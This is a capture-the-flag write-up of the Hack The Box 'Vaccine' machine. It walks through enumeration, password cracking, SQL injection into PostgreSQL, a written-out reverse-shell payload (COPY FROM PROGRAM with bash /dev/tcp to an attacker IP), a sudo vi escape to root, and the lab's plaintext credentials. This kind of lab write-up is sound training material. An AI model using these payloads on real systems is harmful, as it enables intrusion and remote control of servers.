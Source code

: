 # Vaccine Box

This is a linux box CTF on hack the box. It runs a website with a db back end.

This box was quite annoying because HTB targets are shared, multiple people are trying to hack it at once. This leads to other users deleting databases and also removing anything that I did, such as trying to inject a reverse shell. So I had to try at a few different times, sometimes rushing to avoid having what I did undone by another user dropping tables or trying the same attack as I was. 

Tools I used are:

- Kali Linux
- SQLMAP
- Netcat
- NMap
- FTP

## Let's begin

I'll start off with an Nmap scan using sV and sC flags.

![ca9f4c71647696cf9e3bc697ecfe9606.png](images/c5d54a90b9274e16a81a8e9cc9eeba00.png)

Looks like we have few services open we can look into: FTP, SSH, HTTP

A quick search in searchsploit re the FTP server shows our only exploit is a DoS which is not helpful for the challenge.

![63db284efd7c00b19ece3f3895c20012.png](images/e5db358b77c44beb98a5f292fce1442d.png)

SSH accepts password login and public key.

![44221525defbc8a2e179558f5f7fe747.png](images/ff3a70b62a9b427489a09760a2ff48f9.png)

We have a MegaCorp login page on port 80.

![837c04721ca366d886de867b75aafb1e.png](images/99280b627a0743de952d12ed6de906ec.png)

Learning from the previous challenge, I'll try the admin credentials we got from Archetype that also worked in the Oopsie CTF, to see if it works on this challenge too. Not luck this time.

Next I'll try dirbuster and see if we can find any interesting folders or files.

![b18420e6906968e08f96a760ac4dc729.png](images/5ba49a0960484c3cb21c71c3c34f099d.png)

After not finding much interesting I hit the forum and it advised that there is a credential in the last challenge that helps with this challenge. I'll load up the Oopsie box again and go hunting.

Hunting around the Oopsie box let to a filezilla configuration file in the /root/.config folder

![22194124f2c948eeaec472464a94903c.png](images/bb6f55e293954765a1275f0d32b3f2a9.png)

here are the creds, we can see this is for IP 10.10.10.46, which is our current target.

ftpuser / mc@F1l3ZilL4

No we're in to the FTP folder with those credentials.

![c421fd7a486b9f2c481ec22bcf481ff6.png](images/bb99e78659a547cb9e17b44c0a92981a.png)

In that folder we can see one file called 'backup.zip'.

I'll grab it and see what's inside.

It looks like that file is password protected.

![28e445b9bb25fe533a19c8a4f44b0ffe.png](images/78d8bc1b1a3b45ceaaa9dbc546620645.png)

I'll try some of the passwords we have from this challenge and the previous challenges.

John was able to crack the password quite easily, I used this guide:

https://linuxconfig.org/how-to-crack-zip-password-on-kali-linux

![a25640398b5c1057dc6d423a90872428.png](images/0f237f8181b549baa3839ce02ceb0879.png)

![642cf763869db963845b356105dbfc44.png](images/bb1585013f5f4bfebc25a810d65a9539.png) ![9e7a169232f149989a71e7aa9317545d.png](images/d229b7253577480db9aab64f0b9915cc.png)

backup.zip:741852963

After unzipping the file the username and md5 password hash is accessible in the index.php file.

![2c7bfd0d5c9ef50e69fd8ac6ab6cccde.png](images/9f066a77e28b4798a490e62771aecafd.png)

MD5 Hash is: 2cb42f8734ea607eefed3b70af13bbd3

Decrypting the hash gives me the following:

admin / qwerty789

Now we're in the web portal.

![90dda03080be6d2a90f1086d1bbed086.png](images/57b5b030a5264191a4457498914b9d66.png)

Time to look around.

There is a search feature on the top right. There appears to be an injection option here as I received an error when trying a simple sql injection attack:

![c12852e8926a61ca0c4d5fdb943ab082.png](images/5803fe22235e404d8cb03fa511a476cd.png)

I'll try to use sqlmap to see if this can get me some info.

I'll use ZAP to capture the cookie data.

Looks like we have a PostgreSQL db, with possible injection here.

![9d35c642aa2bb38057901c4a6b06cf5b.png](images/286d179f414a4c1f98a63bf325bd87d8.png)

And we got some info

![3fdfd1f49c0eaa4e8f2253b670a7b033.png](images/2341edf52efc44a28ad0609dc39b9fb4.png)

I'll try for a shell.

Note while I was attempting this it appears that the data in the db 'dissappeared' I'm assuming another player dropped the DB. I will come back later, as it happened twice to me within a 30min period.

Coming back after another day, the data was restored to the host so I continued with my testing.

Using SQLMAP I managed to get the database names with 'dbs' flag

![ec3dd5c3a5428f69b68e8dd7680b763c.png](images/339b40ec511549c0b1fc4fe34f022860.png)

I then took a look at the tables in the public DB:

![bd82c049ecd9ff3fc0b5d754867d14a7.png](images/52366a7beb934eafb1c9c0e053c20b12.png)

Then I could obtain the data in that table with the --dump sqlmap flag.

![0c1c13af88dc0a61b6563356ecc75b3b.png](images/ff178f5c62ad41cd884920dd87c0b909.png)

I tried a reverse shell, but that did not seem to work with sqlmap.

Next I'll try get the user name and password ofr the db with the --user and --password flag in sqlmap

![004d2f7b21349506f6c32a642e20f986.png](images/a63a1e1597bc42b5a17e1a052b3efe81.png)

Now I will try to brute force the password with the rockyou.txt password list.

![df06301ea9e3e431f2f468b577d4cf54.png](images/7ba0deda95fe4bf9884edcb753c03747.png)

Unfortunately this did not work, the password must not be in that list.

Since I cannot get an os shell using the sqlmap builtin feature, I'll attempt to get a sql shell.

This worked.

![f7cb0557af2bc926380c22b958bbc5fa.png](images/a7eb7952811147a3a4e6b2304cae7146.png)

Now I will attempt to manually get a reverse shell, this article provides some instructions on performing and testing command injection.

https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5 

I ended up runing the following SQL Injection commands to get a reverse shell

DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd\_exec(cmd\_output text);

COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.14.109/4444 0>&1"';

This finally led to a remote shell

![8177cf227345ac1b490c788617b91c86.png](images/45f8bbf39b8445bb9ed95abdc3b21cc8.png)

Since the site is user a DB, I will look through the code to see if the DB password is available.

![f9d9214f120a9fc0bc764a328f303940.png](images/4bee4dbb99f342b6a6b566267ce32a80.png)

We can see the DB password and user in the dashboard.php file

![002b28a0a45c4474faa7ac50aac3e5c3.png](images/9031eae6d4454d3f99e684bc35ec26e3.png)

postgres P@s5w0rd!

Note at this point I got kicked off, another user must have dropped my table or reset the box. So I had to redo the above attack again to re-obtain a shell.

Now that I'm back in, I'll upgrade from a simple shell with python3 -c 'import pty; pty.spawn("/bin/sh")'

![1d6232cad372d13381beeadd0ac75b36.png](images/2aca0bc7ca804d18b98c4fa1b9d1e87a.png)

The user seems to have sudo access using vi, this can be easily exploited since vi can run shell commands. 

![0adc6e11777949fd58880ab1c8f6fc2a.png](images/aa3973eb03654d4dbd372e2339d3d5e7.png)

So I will run the above command as sudo, launching vi as root, then launch a shell with the following command in vi :!/bin/bash

Now I have root access

![67f14913f3bb116fa979c0fba90bbe2a.png](images/e91a82718b1743419908373c2d9ef202.png)

Finally for the flag:

![31a9d283550392adf57d52cfcee1d0e3.png](images/93960f37ca164b389c8c28c24c2bc6b2.png)